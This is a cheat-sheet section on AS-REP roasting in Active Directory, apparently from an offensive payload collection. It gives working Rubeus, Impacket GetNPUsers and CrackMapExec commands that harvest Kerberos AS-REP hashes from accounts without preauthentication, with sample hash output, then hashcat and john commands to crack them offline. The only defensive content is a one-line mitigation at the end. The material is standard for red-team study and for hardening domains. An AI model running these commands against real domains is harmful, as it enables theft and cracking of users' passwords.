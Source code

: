 ## KRB\_AS\_REP Roasting

> If a domain user does not have Kerberos preauthentication enabled, an AS-REP can be successfully requested for the user, and a component of the structure can be cracked offline a la kerberoasting

**Requirements**:

- Accounts with the attribute **DONT\_REQ\_PREAUTH** (`PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose`)
    
- [Rubeus](https://github.com/GhostPack/Rubeus)
    
    ```
    C:\Rubeus>Rubeus.exe asreproast /user:TestOU3user /format:hashcat /outfile:hashes.asreproast
    [*] Action: AS-REP roasting
    [*] Target User            : TestOU3user
    [*] Target Domain          : testlab.local
    [*] SamAccountName         : TestOU3user
    [*] DistinguishedName      : CN=TestOU3user,OU=TestOU3,OU=TestOU2,OU=TestOU1,DC=testlab,DC=local
    [*] Using domain controller: testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/o preauth) for: 'testlab.local\TestOU3user'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 169 bytes
    [*] Received 1437 bytes
    [+] AS-REQ w/o preauth successful!
    [*] AS-REP hash:
    
    $krb5asrep$TestOU3user@testlab.local:858B6F645D9F9B57210292E5711E0...(snip)...
    ```
    
- [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
    
    ```
    $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
    [*] Getting TGT for svc-alfresco
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4
    
    # extract hashes
    root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
    root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
    ```
    
- CrackMapExec Module
    
    ```
    $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
    LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
    ```
    

Using `hashcat` or `john` to crack the ticket.

```
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**:

- All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).